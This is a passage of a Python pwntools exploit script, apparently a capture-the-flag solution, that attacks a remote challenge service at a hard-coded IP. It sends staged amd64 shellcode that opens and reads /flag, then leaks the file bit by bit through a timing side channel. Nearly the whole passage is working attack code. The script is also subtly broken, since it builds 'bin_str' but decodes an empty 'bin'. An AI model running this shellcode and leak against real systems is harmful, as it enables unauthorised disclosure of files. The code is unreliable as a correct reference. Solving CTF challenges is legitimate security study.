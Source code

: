 ```py
		if debug:
			gdb.attach(s, gdbscript='''
			''')
		else:
			raw_input('DEBUG')
	else:
		io = remote('103.162.14.240', 15001)

	return io


elf = ELF('./chall')
#libc = ELF('libc.so.6')

def chill(offset):
    bin = ''
    for bit in range(8):
        io = conn()
        stage1 = asm(f"""
        xor edi, edi
        mov esi, edx
        syscall
        """, arch='amd64')

        io.send(stage1)

        stage2 = asm(("""
        .rept 0x6
        nop
        .endr
        """ 
            + shellcraft.amd64.linux.open('/flag')
            + shellcraft.amd64.linux.read('rax', 'rsp', 0x100)
            + f"""
            xor r11, r11
            xor rax, rax
            mov al, [rsp+{offset}]
            shr al, {bit}
            shl al, 7
            shr al, 7
        loop:
            cmp rax, r11
            je end
            jmp loop
        end:
        """
        ), arch='amd64')

        io.send(stage2)
        start = time.time()
        io.recvall(timeout=1).decode()
        now = time.time()

        if (now - start) > 1:
            bin_str += '1'
        else:
            bin_str += '0'

    byte = int(bin[::-1], 2)

    return byte


```